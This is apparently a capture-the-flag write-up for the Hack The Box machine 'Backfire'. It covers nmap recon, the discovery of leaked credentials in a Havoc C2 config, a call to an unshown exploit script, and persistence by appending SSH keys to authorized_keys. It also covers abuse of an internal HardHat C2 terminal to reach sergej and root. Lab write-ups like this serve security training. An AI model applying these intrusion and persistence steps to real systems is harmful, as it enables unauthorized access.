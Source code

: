 # Backfire Write-up

<img src="https://labs.hackthebox.com/storage/avatars/aa0a93908243c51fe21e691fc6571911.png" width="200" height="200">

## Recon

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.49`

    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
    | ssh-hostkey:                                                                                                                                                                                                                              
    |_  256 be:f3:27:9e:c6:d6:29:27:7b:98:18:91:4e:97:25:99 (ED25519)                                                                                                                                                                           
    443/tcp  open  ssl/https?                                                                                                                                                                                                                   
    | ssl-cert: Subject: commonName=127.0.0.1/stateOrProvinceName=Florida/countryName=US                                                                                                                                                        
    | Subject Alternative Name: IP Address:127.0.0.1                                                                                                                                                                                            
    | Not valid before: 2024-05-30T05:03:56                                                                                                                                                                                                     
    |_Not valid after:  2027-05-30T05:03:56                                                                                                                                                                                                     
    |_ssl-date: TLS randomness does not represent time                                                                                                                                                                                          
    | tls-alpn:                                                                                                                                                                                                                                 
    |   http/1.1                                                                                                                                                                                                                                
    |   http/1.0                                                                                                                                                                                                                                
    |_  http/0.9                                                                                                                                                                                                                                
    8000/tcp open  http       nginx 1.22.1                                                                                                                                                                                                      
    |_http-server-header: nginx/1.22.1                                                                                                                                                                                                          
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

Use the `-p-` flag and perform a full scan of our target.

`nmap -sC -sV -p- 10.10.11.49`  

Add host to `/etc/hosts`.

    sudo echo "10.10.11.49 backfire.htb" | sudo tee -a /etc/hosts

backfire.htb:8000

![image](https://github.com/user-attachments/assets/5e076f97-4d39-4ff3-af45-2377e57cfbe8)

/havoc.yaotl

![image](https://github.com/user-attachments/assets/9f0e32e3-4fa7-4a70-8865-b90ea8066ae8)

Found the following credentials.

`ilya`:`CobaltStr1keSuckz!`

`sergej`:`1w4nt2sw1tch2h4rdh4tc2`

![image](https://github.com/user-attachments/assets/d1805006-5e85-4f1a-9d33-83d7cae3c9ee)

## Exploitation

    python3 exploit.py -t https://backfire.htb/ -u ilya -i <IP> -p <PORT>

![image](https://github.com/user-attachments/assets/e2cb4ea4-0b2a-4de6-a552-d7060499ff95)

![image](https://github.com/user-attachments/assets/827d0513-8c42-4819-b147-b1085a83b532)



![image](https://github.com/user-attachments/assets/82f4a9b2-9c91-4073-8c1a-48ed3aa41956)

![image](https://github.com/user-attachments/assets/b52ac504-6fa7-464f-8494-b12a93d2e952)

![image](https://github.com/user-attachments/assets/cf3404af-bbb9-4f06-ad1f-1c44458e619e)

Get the user flag!

![image](https://github.com/user-attachments/assets/2df4486d-44b6-4eb8-8d21-a68a4b68c2a5)

### Privilege escalation

ssh-keygen -t rsa -b 2048

mkdir -p ~/.ssh

echo "YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys

chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys

ssh -i path/to/key ilya@backfire.htb

![image](https://github.com/user-attachments/assets/ad920c2a-6319-4800-9670-c26db603f07c)

hardhat.txt

![image](https://github.com/user-attachments/assets/2a1d5164-195b-4861-80db-87ac07b0a1d7)

netstat -a

![image](https://github.com/user-attachments/assets/aca87839-8572-4d0c-a014-87aecfb5314d)

    ssh -i key ilya@backfire.htb -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000

![image](https://github.com/user-attachments/assets/1b267bef-b786-4810-b082-942911b9c0a9)

https://127.0.0.1:7096

![image](https://github.com/user-attachments/assets/78ea7bdf-f6c8-4e0f-a35c-1ce29bc65a33)

![image](https://github.com/user-attachments/assets/9d2b02fa-7e1f-4c2b-b2fc-1e1c6ed8e5cf)

![image](https://github.com/user-attachments/assets/1fc599fc-9ff5-4b2f-ab86-c01ee20dd626)

Open `/ImplantInteract` page add terminal.

![image](https://github.com/user-attachments/assets/70a60838-82a2-4bf1-8418-ce72dd50dc3e)

Scroll down and add our ssh public key with to `authorized_keys` via `echo` command.

    echo "YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys


![image](https://github.com/user-attachments/assets/12eec708-9552-413a-a869-499bd31b7935)

    ssh -i key sergej@backfire.htb

![image](https://github.com/user-attachments/assets/9cc091f9-324f-46e4-a6c3-f603c9bdae06)

    ssh -i sshkey root@backfire.htb

![image](https://github.com/user-attachments/assets/d0fd61d7-825e-4c65-b819-3c786b1fc75e)

Get the root flag!

![image](https://github.com/user-attachments/assets/6c528e26-b74c-4172-8b37-370eaaea1b78)
